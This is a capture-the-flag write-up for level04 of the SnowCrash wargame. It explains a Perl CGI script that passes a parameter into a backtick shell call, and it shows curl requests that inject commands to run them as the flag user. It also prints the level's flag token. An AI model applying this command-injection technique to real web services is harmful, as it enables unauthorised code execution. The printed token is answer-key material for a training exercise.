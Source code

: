 # level04

## Hint

By logging into the VM, we notice a perl script in our home directory.

```shell-session
level04@SnowCrash:~$ ls -la level04.pl
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

Just as in the previous level, the `setuid` bit is set on that file, meaning it's execution is constrained by the rights of its owner, who just so happens to be the user whom identity we are trying to usurp in order to access his flag.

## The script

Is as follows:

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

What we can conclude from this file:
- it uses a [Common Gateway Interface](https://fr.wikipedia.org/wiki/Common_Gateway_Interface) to chat with a web server.
- `# localhost:4747` gives the location and port of the server, meaning `127.0.0.1:4747`.
- the subroutine `x` very clearly calls the `echo` command upon its first argument conveniently named `x` and redirects all output (namely stderr) to stdout.
- the call to `echo` is wrapped in between backticks, which suggests that the output is captured in order to print it through the Gateway.

So, if we send a mere string to that script, that string will be printed, and if we wrap a command between backticks and send it to the script, then that command's output will be printed.

## whoami

To test it we can run the following but notice something odd:

```shell-session
level04@SnowCrash:~$ ./level04.pl x=`whoami`
Content-type: text/html

level04
```

the `whoami` command displays **OUR** uid, instead of the supposed `flag04` file owner's one.

This is quite a troubling situation but a quick Google search `setuid on my perl script not working` leads us to [this](https://unix.stackexchange.com/questions/190740/why-is-the-suid-bit-having-no-effect-on-a-shell-or-perl-script) discussion which gives us a hint at *why* we are stuck in this situation:

> suid bit is disabled for scripts in most linux and unix distributions because it opens several security holes.

## server 

Since this script is ran on the server mentionned previously, it would only make sense to test if the output is the same there:

```shell-session
level04@SnowCrash:~$ curl '127.0.0.1:4747/level04.pl?x=`whoami`'
flag04
```

Which is not the case and in order to understand why, we must inspect the configurations file of the server, and as for most config files, we find it under the `/etc` directory.

Namely: `/etc/apache2/sites-enabled/level05.conf`.

```shell-session
level04@SnowCrash:/etc/apache2/sites-enabled$ cat level05.conf
<VirtualHost *:4747>
	DocumentRoot	/var/www/level04/
	SuexecUserGroup flag04 level04 # <---- important information
	<Directory /var/www/level04>
		Options +ExecCGI
		DirectoryIndex level04.pl
		AllowOverride None
		Order allow,deny
		Allow from all
		AddHandler cgi-script .pl
	</Directory>
</VirtualHost>
```

And as the [apache conf manual](https://httpd.apache.org/docs/2.4/fr/mod/mod_suexec.html) states:
> The SuexecUserGroup directive allows you to specify a user and group for CGI programs to run as. Non-CGI requests are still processed with the user specified in the User directive.

So this setting, if enabled, allows for the execution of code with rights inherited from the designated *user* - *group* identity in the conf file.

# getflag

```shell-session
level04@SnowCrash:~$ curl '127.0.0.1:4747/level04.pl?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
